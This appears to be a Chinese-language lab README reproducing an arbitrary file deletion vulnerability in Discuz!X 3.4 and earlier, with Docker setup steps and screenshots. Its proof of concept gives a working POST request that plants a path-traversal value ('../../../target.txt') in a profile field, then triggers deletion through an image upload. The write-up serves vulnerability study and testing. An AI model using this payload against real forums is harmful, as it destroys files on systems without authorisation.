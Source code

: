# Discuz!X ≤3.4 任意文件删除漏洞

影响版本：Discuz!X ≤3.4  漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

# 环境

执行下列命令部署 Discuz!X 安装环境

    docker-compose build
    docker-compose up -d

在镜像完成部署后使用下列命令获取数据库IP以便后面安装。

    docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' $container_name_or_id

数据库地址为上面的命令获得的地址，数据库名为：`DISCUZX` 。用户名可用 `root` 或 `DISCUZX` ，口令是 `DISCUZX` 。

![](1.png)

# POC

使用 `docker ps` 以及 `docker exec -it $container_name_or_id ` 查看当前目录的状态，可以看到测试文件 `target.txt` 。

![](2.png)

![](3.png)

注册用户后进入用户资料修改页面，在基本资料页面尝试使用 `Hackbar` 提交

    POST http://$IP/home.php?mod=spacecp&ac=profile&op=base
    birthprovince=../../../target.txt&profilesubmit=1&formhash=$UserHash

其中formhash可以再页面中查找获得。

![](4.png)

提交成功之后用户资料修改页面上的出生地就会显示成下图所示的状态。

![](5.png)

这时使用 `upload.html` 进行任意图片上传。

![](6.png)

完成攻击，目标文件成功被删除

![](7.png)